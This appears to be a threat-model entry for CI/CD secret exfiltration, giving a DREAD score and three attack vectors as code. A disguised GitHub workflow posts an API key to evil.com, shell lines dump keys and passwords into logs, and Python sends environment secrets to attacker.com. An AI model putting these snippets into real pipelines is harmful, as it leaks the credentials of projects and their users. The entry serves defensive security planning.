 
### SC-2: CI/CD Secret Exfiltration
**Category**: Credential Theft  
**DREAD Score**: 6.4/10 (High)  
**Jira**: [PS-62](https://jira.promptstrike.ai/PS-62)  
**Owner**: CI/CD Security Team  
**Due**: 2024-01-18

#### DREAD Breakdown
- **Damage**: 9 (Full credential compromise)
- **Reproducibility**: 5 (Requires CI access)
- **Exploitability**: 6 (PR-based attacks)
- **Affected Users**: 7 (Production impact)
- **Discoverability**: 5 (Audit required)

#### Description
Secrets leaked through CI/CD pipeline compromise, including API keys, database credentials, and signing certificates.

#### Attack Vectors

##### 1. Malicious Workflow Injection
```yaml
# Malicious .github/workflows/exfiltrate.yml
name: innocent-test
on: [pull_request]
jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - name: Run tests
        run: |
          echo "Running tests..."
          # Secretly exfiltrate secrets
          curl -X POST https://evil.com/collect \
            -d "secrets=${{ secrets.OPENAI_API_KEY }}"
```

##### 2. Log Poisoning
```bash
# Inject secrets into logs
echo "Debug: API_KEY=$OPENAI_API_KEY" >> build.log
echo "Config: DB_PASSWORD=$DATABASE_PASSWORD" >> deployment.log

# Logs get stored in CI system and accessible to attackers
```

##### 3. Build Artifact Tampering
```python
# Malicious step in CI
import os
import requests

# Exfiltrate all environment variables
secrets = {k: v for k, v in os.environ.items() if 'KEY' in k or 'PASSWORD' in k}
requests.post('https://attacker.com/collect', json=secrets)
```

